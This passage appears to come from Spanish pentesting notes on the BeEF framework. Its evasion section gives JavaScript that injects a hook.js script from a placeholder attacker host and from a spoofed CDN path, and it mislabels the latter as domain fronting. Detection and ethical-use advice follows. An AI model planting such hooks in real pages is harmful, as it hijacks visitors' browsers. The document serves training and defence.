
### Bypass de detección

>[!tip] Técnicas de evasión
>```javascript
>// Hook ofuscado
>var s=document.createElement('script');
>s.type='text/javascript';
>s.src='http://[IP]:3000/hook.js';
>document.head.appendChild(s);
>
>// Hook con dominio legítimo (domain fronting)
>var s=document.createElement('script');
>s.src='https://cdn.jquery.com/beef.js';
>document.head.appendChild(s);
>```

---

## 🔒 Consideraciones de Seguridad

>[!warning] Uso ético
>- **Solo en entornos autorizados**: Nunca usar sin permiso explícito
>- **Documentar todo**: Mantener registros de las pruebas realizadas  
>- **Limpiar después**: Remover hooks y payloads tras las pruebas
>- **Informar vulnerabilidades**: Reportar hallazgos de manera responsable

### Detección y mitigación

>[!info] Cómo detectar BeEF
>- Monitorear conexiones a puertos 3000/3443
>- Buscar archivos `hook.js` en el tráfico
>- Analizar requests POST sospechosos
>- Implementar CSP (Content Security Policy)

---

## 📚 Recursos Adicionales

- **Documentación oficial**: Framework BeEF GitHub
- **Módulos personalizados**: Desarrollo de extensiones
- **Integración con Metasploit**: Combinar con otras herramientas
- **OWASP WebGoat**: Entorno de práctica seguro